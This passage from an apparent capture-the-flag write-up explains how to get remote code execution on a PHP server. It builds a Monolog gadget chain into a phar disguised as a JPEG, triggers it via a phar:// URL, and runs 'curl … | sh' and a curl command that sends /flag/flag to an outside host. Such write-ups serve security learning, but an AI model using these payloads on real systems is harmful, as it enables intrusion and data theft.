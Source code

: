 Modify `gadgetchains/Monolog/RCE/1/chain.php` because the file has to be JPEG image:

```php
<?php

namespace GadgetChain\Monolog;

class RCE1 extends \PHPGGC\GadgetChain\RCE
{
    public $version = '1.18 <= 1.23';
    public $vector = '__destruct';
    public $author = 'cf';

    public function generate(array $parameters)
    {   
        $a = new \Monolog\Handler\SyslogUdpHandler(
            new \Monolog\Handler\BufferHandler(
                ['current', 'system'],
                ['curl "240.240.240.240:1234" | sh', 'level' => null]
            )
        );
        unlink('pwn.phar');
        $p = new \Phar('pwn.phar', 0); 
        $p['file.txt'] = 'test';
        $p->setMetadata($a);
        $p->setStub("\xff\xd8\xff\xe0\x0a<?php __HALT_COMPILER(); ?>");
        return $a; 
    }   
}
```

Upload this JPEG image and get RCE by visiting `http://200.136.252.42/share/pher%3a%2f%2fIMAGE_PATH`.

The remote server's `nc` doesn't work so I have to use `curl` to get the flag:

```
curl 240.240.240.240:12345 -F "a=`cat /flag/flag 2>&1`"
```

#### Failed Attempts

- Upload a webshell via image uploading API
    - The server will rename the file, and it will also check the content to make sure it's JPG.
- Exploit `getimagesize()`?
    - If the server uses `getimagesize()` we can also inject `phar://IMAGE_PATH` to trigger the deserialization and RCE. Refer to [this](https://srcincite.io/blog/2018/10/02/old-school-pwning-with-new-school-tricks-vanilla-forums-remote-code-execution.html). However I didn't try that because I have more confidence the server is using `file_exists` in the share API.

### Message Board I (File Inclusion)

This challenge consists of 3 flags. We need file inclusion to get the first flag.

In this challenge, we can create/delete/read a message using JSON format. There are already 3 notes in the server. They are related to XML ,gopher protocol and json respectively. It seems like a hint.
